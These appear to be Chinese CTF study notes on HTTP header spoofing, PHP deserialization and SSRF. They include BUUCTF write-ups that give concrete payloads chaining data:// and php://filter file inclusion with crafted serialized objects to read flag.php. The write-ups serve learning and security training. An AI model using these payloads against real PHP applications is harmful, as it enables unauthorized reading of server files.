

## HTTP

请求头Referer:http://xxxxx
修改访问浏览器：在User-Agent中修改
在本地访问：X-Forwarded-For:127.0.0.1

## PHP

### 序列化和反序列化

```
（2021.3.24）最近做到php序列化的题
看了好多师傅们的博客学到了很多
Y4师傅博客：https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
这里就打算简单总结一下，以备之后复习 
```

*   1.protected ,private,public属性
    var 和 public 声明的字段都是公共字段，因此它们的字段名的序列化格式是相同的。公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号 $。

    protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上 \0*\0 的前缀，注意，这里的 \0 表示 ASCII 码为 0 的字符，也就是我们经过 urlencode 后看到的 %00 。

    private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，字段名前面会加上 \0\0 的前缀，这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。在进行长度计算的时候，会把 \0 也计算上
    `绕过方法`：
    再序列化内容中用大写S表示字符串，此时字符串就支持后面的字符串用16进制表示

### buu NiZhuanSiWei

题目给出源码：

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){

    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

1.使用data伪协议和文件包含：

```
?text=data:text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php 
```

用php://input伪协议在以POST形式传入“ welcome to the zjctf " 也可以用data伪协议传参

```
/?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php 
```

2.得到base64编码的页面，解密如下：

```
<?php  

class Flag{  
    public $file;    
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file);    
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

3.反序列化：

4.重新构造payload

```
?text=data:text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

5.最后查看源码得到flag

### BUUCTF [网鼎杯 2020 青龙组]AreUSerialz

*   知识点：php反序列化漏洞，弱类型比较

*   打开地址看到

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

需要绕过两个地方
1.绕过is_valid(),protected属性
方法：用大写S表示字符串，在php7.1+的环境下对属性的要求不是很敏感,用public属性绕过private属性产生的%00问题

2.弱类型绕过
__destruct()魔术方法中，op==="2"是强比较（类型和属性都等于’2’），而process()使用的是弱比较op==“2”，可以通过弱类型绕过
方法：op=2，这时op==="2"为false,op=="2"为true

```
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
    ```
对于file_get_contents()函数，可以用php:filter伪协议读取，将filename置为```php://filter/read=convert.base64-encode/resource=flag.php``。
```java
<?php
class FileHandler {
    public $op = 2;
    public $filename = 'php://filter/read=convert.base64-encode/resource=flag.php';//或者直接读'flag.php'
    public $content;
}
echo serialize(new FileHandler);
?>
//O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;} 
```

payload为

```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;} 
```


得到flag{12ffa359-defc-4dc6-b363-0b6f48c79b91}

## SSRF

1.  SSRF简介
    SSRF（Server-Side Request Forgery，服务端请求伪造），是攻击者让服务端发起构造的指定请求链接造成的漏洞。

    由于存在防火墙的防护，导致攻击者无法直接入侵内网；这时攻击者可以以服务器为跳板发起一些网络请求，从而攻击内网的应用及获取内网数据。

2.  SSRF形成原因
    大都是由于服务端提供了从其它服务器获取数据的功能，比如使用户从指定的URL web应用获取图片、下载文件、读取文件内容等。但又没有对目标地址做严格过滤与限制，导致攻击者可以传入任意的地址来让后端服务器对其发送请求，并返回对该目标地址请求的数据。

    最常见的例子：攻击者传入一个未经验证的URL，后端代码直接请求这个URL，就会造成SSRF漏洞。

3.  SSRF与CSRF的区别
    CSRF是服务器端没有对用户提交的数据进行随机值校验，且对http请求包内的refer字段校验不严，导致攻击者可以利用用户的cookie信息伪造用户请求发送至服务器；

    SSRF是服务器对用户提供的可控URL过于信任，没有对攻击者提供的URL进行地址限制和足够的检测，导致攻击者可以以此为跳板攻击内网或者其它服务器。

4.  SSRF的类型
    1）显示对攻击者的响应（basic）：在服务器获取攻击者要求的URL后，把响应发送回攻击者。
    2）不显示响应（blind）：在服务器获取攻击者要求的URL后，不会把响应内容发送给攻击者，需要通过抓包或查看服务器日志判断是否存在服务端请求伪造漏洞。

5.  利用SSRF可以实现的攻击
    1）获取web应用可达服务器的banner信息（如软件开发商、软件名称等），以及收集内网web应用的指纹识别（如开放的端口、中间件版本等），根据这些信息再进行进一步的渗透；
    2）攻击运行在内网的系统或应用程序，获取内网系统弱口令进行内网漫游，对有漏洞的内网web应用实施攻击获取webshell（如Struts2命令执行，discuz!论坛SSRF通过Redis实施getshell等）；
    3）利用有脆弱性的组件结合ftp://，file:///，gopher://，dict://等协议实施攻击（如FFmpeg任意文件读取，XXE攻击等）。

6.  拓展攻击面
    结合gopher协议攻击内网FTP、Telnet、Redis、FastCGI、Memcache，也可以进行get、post请求。